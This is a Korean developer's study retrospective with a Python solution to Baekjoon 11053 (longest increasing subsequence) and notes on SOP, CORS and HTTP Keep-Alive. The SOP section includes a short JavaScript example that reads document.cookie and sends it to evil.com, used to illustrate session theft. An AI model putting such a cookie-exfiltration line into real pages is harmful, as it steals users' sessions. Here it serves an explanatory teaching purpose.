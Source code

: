 # [2025년 10월 20일] 회고 

## 📚 주제별 학습 내용 
### [백준 11053](https://www.acmicpc.net/problem/11053)
```python
import sys
input = sys.stdin.readline
N = int(input())
A = list(map(int,input().split()))

dp=[1]*N
for i in range(N):
    for j in range(i):
        if A[i] > A[j]:
            dp[i] = max(dp[i],dp[j]+1)
print(max(dp))


# 완전탐색
def dfs(idx, prev_val):
    if idx==N:
        return 0
    
    # 선택 x
    res = dfs(idx+1,prev_val)

    # 선택 o
    if prev_val < A[idx]:
        res = max(res,1+dfs(idx+1,A[idx]))
    
    return res 

print(dfs(0,float('-inf')))
```

> ## CORS (Cross Origin Resource Sharing)
브라우저는 잠재적으로 악의적인 문서를 분리하기 위해 SOP(Same-Origin Policy)를 기본 보안 정책으로 가지고 있는다. 이를 우회해서 따로 설정해 놓은 origin으로도 접근 가능할 수 있게 하는 것이다. 

### SOP(Same-Origin Policy) 
SOP는 동일한 출처(Origin)의 리소스만이 상호작용(DOM에 접근)을 허용하는 정책이다.
- 자바스크립트로 DOM(Document Object Model)에 접근할 수 있다. 
    - `document.test_form.test_input.value`와 같이 test_form의 test_value에 있는 value 값을 가져오는 스크립트를 실행할 수 있게 한다. 
- AJAX(페이지 전체를 로딩하지 않고 비동기식으로 필요한 부분만 동적으로 처리 및 로딩)를 사용할 때 해당 origin이 아니라 다른 ​`api.example.com`와 같은 api서버를 요청한다면 CORS 정책에 막힐 것이다. 
- 해당 Origin에서 `/test.html`, `/test.css` 이런식으로만 부를 수 있게 막아 놓은 것이 SOP이다. 
- SOP를 안하면?? 
    - CSRF(Cross-Site Request Forgery), 세션 탈취, 개인정보 유출 가능
    - 자바스크립트로 이메일/메시지 전부 탈취 가능 
1. https://service.com 로그인 → 쿠키 저장.
2. evil.com에서:
```javascript
const cookies = document.cookie; // 다른 출처의 쿠키도 읽음 (SOP 없을 때)
fetch("https://evil.com/collect?c="+encodeURIComponent(cookies));
```
3. 공격자가 세션 쿠키를 획득 → 다른 브라우저에서 같은 쿠키로 로그인 세션 재현 가능.
### CORS의 주요 특징
1. 출처(origin)는 프로토콜, 도메인, 포트번호의 조합으로 정의된다.
2. CORS는 HTTP 헤더를 사용하여 제어된다. 주요 헤더로는 'Origin'(요청 출처), 'Access-Control-Allow-Origin'(허용된 출처) 등이 있다. 
3. 브라우저는 cross-origin 요청 시 'Origin'헤더를 자동으로 추가하고, 서버의 응답에서 'Access-Control-Allow-Origin' 헤더를 확인하여 리소스 접근 여부를 결정한다. 
4. CORS는 보안을 유지하면서도 필요한 cross-origin 상호작용(ajax, web 폰트 로딩)을 가능하게 한다. 



---
> ## keep-alive 
### 1. Keep-Alive란 무엇인가?

**HTTP Keep-Alive** (또는 **HTTP 지속적 연결, persistent connection**)는 클라이언트와 서버 간에 맺어진 **TCP 연결**을 한 번의 요청-응답 주기가 끝난 후에도 **끊지 않고 계속 재사용**하는 기술입니다.

과거 **HTTP/1.0**에서는 각 리소스를 요청할 때마다 TCP 연결을 새로 맺고 끊는 과정을 반복했습니다. 이 방식은 매번 **'3-Way Handshake'** 과정을 거쳐야 했기 때문에 상당한 **오버헤드**와 **지연 시간**을 유발했습니다.

---

### 2. HTTP 버전에 따른 변화

| HTTP 버전 | Keep-Alive 동작 방식 | 헤더 사용 |
| :--- | :--- | :--- |
| **HTTP/1.0** | 기본적으로 **비활성화** | `Connection: Keep-Alive` **명시 필요** |
| **HTTP/1.1** | 기본적으로 **활성화** | 연결을 끊을 때 `Connection: close` 사용 |
| **HTTP/2** | **멀티플렉싱** 도입으로 개념 발전 | 하나의 TCP 연결에서 여러 요청 병렬 처리 |

---

### 3. 동작 방식과 주요 헤더

1.  **클라이언트 요청**: 연결 유지를 요청합니다. (HTTP/1.1에서는 기본 동작)

    ```http
    GET /resource.html HTTP/1.1
    Connection: Keep-Alive
    ```

2.  **서버 응답**: 연결 유지를 수락합니다.

    ```http
    HTTP/1.1 200 OK
    Connection: Keep-Alive
    ```

3.  **연결 재사용**: 동일한 TCP 연결을 통해 추가 리소스를 계속 요청하고 응답받습니다.
4.  **연결 종료**: `timeout`이나 `max` 설정 초과, 또는 `Connection: close` 헤더 수신 시 종료됩니다.

---

### 4. Keep-Alive의 장점

* **지연 시간 감소**: 3-Way Handshake 생략으로 응답 속도 향상.
* **자원 절약**: TCP 연결 관리에 필요한 CPU/메모리 사용량 감소.
* **네트워크 혼잡 감소**: 불필요한 연결 설정/해제 패킷 감소.

---

**결론**: Keep-Alive는 웹 성능 최적화의 기본 기술이며, HTTP/2의 멀티플렉싱으로 더욱 발전했습니다.